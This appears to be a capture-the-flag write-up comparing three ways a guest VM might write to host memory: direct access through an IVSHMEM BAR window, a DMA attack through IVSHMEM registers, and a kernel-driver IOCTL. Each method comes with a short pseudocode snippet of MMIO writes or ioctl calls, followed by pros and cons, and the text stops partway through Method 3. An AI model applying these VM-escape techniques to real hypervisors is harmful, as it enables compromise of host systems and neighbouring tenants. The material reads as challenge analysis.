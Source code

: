 ## Attack Methods Comparison

### Method 1: IVSHMEM BAR Direct Access
```python
# Your approach - access host memory via BAR window
bar_base = 0xfe800000
target_offset = FLAG_WRITE_PHYS - bar_base
mmio_write(bar_base + target_offset, FLAG_WRITE_VALUE)
```

**Pros**: 
- Direct memory window to host
- No need for hypercalls
- Works if BAR maps to host physical memory

**Cons**:
- Requires correct BAR mapping
- Host must configure IVSHMEM to expose target addresses

### Method 2: IVSHMEM DMA Attack
```python
# Configure DMA engine to write to arbitrary host memory
bar_base = 0xfe800000

# Write value to BAR buffer
mmio_write(bar_base + 0x1000, FLAG_WRITE_VALUE)

# Configure DMA
mmio_write(bar_base + 0x08, bar_base + 0x1000)  # Source
mmio_write(bar_base + 0x10, FLAG_WRITE_PHYS)    # Dest (host!)
mmio_write(bar_base + 0x18, 8)                  # Length
mmio_write(bar_base + 0x20, 0x1)                # Trigger DMA
```

**Pros**:
- Can target arbitrary host addresses
- Leverages hardware DMA
- Very powerful if DMA is available

**Cons**:
- Requires understanding DMA register layout
- May not work if DMA is restricted

### Method 3: Direct IOCTL (Your driver provides this)
```python
# Bypass IVSHMEM entirely - use kernel driver
ioctl(fd, IOCTL_WRITE_GPA, {
    'gpa': FLAG_WRITE_PHYS,
    'value': FLAG_WRITE_VALUE
})
```

**Pros**:
- Works without IVSHMEM
- Direct kernel access
- Most reliable
